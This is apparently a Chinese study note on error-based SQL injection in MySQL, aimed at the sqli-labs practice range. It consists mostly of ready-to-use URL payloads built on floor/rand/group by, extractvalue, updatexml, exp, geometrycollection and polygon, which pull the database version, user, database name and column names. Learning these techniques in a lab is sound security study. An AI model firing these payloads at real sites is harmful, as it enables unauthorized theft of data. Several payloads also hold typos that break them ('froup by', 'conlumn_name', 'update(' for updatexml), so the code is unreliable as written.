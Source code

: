 #### 5.4.1 BUG报错

- 别名 oldname as newname（as可以不写）
- count() rand group by 三个函数连用会报错，要求数据库中条目大于3
- select concat(floor(rand(0)*2),”====”,(select **database()**)) as **x**, count(1) from **admin** group by **x**;

#### 5.4.2 函数报错

- floor
	原理是rand和order by或group by的冲突
	```sql
	#爆破数据库版本信息
	?id=1 and(select 1 from(select count(*),concat((select (select (select concat(0x7e,version(),0x7e))) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables froup by x)a)%23
	#爆破当前用户
	?id=1 and(select 1 from(select count(*),concat((select (select (select concat(0x7e,user(),0x7e))) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables froup by x)a)%23
	#爆破当前使用的数据库
	?id=1 and(select 1 from(select count(*),concat((select (select (select concat(0x7e,database(),0x7e))) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables froup by x)a)%23
	#爆破指定表的字段（下面以表名为emails举例说明）
	?id=1 and(select 1 from(select count(*),concat((select (select (select distinct concat(0x7e,conlumn_name,0x7e) from information_schema.columns where table_name=0x656d616973 limit 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables froup by x)a)%23
	```
	这里采用十六进制编码后的表名，若像用非十六进制的则需要添加引号，但此时可能导致单引号报错。
	以上payload可在[[../target range/sqli-labs|sqli-labs]]的level1中复现
  ​	(select 1 from (select count(\*),concat(version(),floor(rand(0)\*2))x from information_schema.table group by x)a);

- extractvalue

  ​	extractvalue(1,concat(0x5c,(select table_name from information_schema.table limit 1)));

- ==updatexml==
	```sql
	1=(update(concat(0x3a,(select database())),1));
	?id=1' updatexml(1,concat(0x7e,(SELECT version()),0x7e),1)%23
	```
	
	其他功能的payload可参照floor的使用方法来修改
- exp

  ​	exp (~(select * from (select user() a)))

- geometrycollection

  ​	geometrycollection((select * from (select * from(select user())a)b));

- polygon

  ​	polygon((select * from (select * from(select user())a)b));
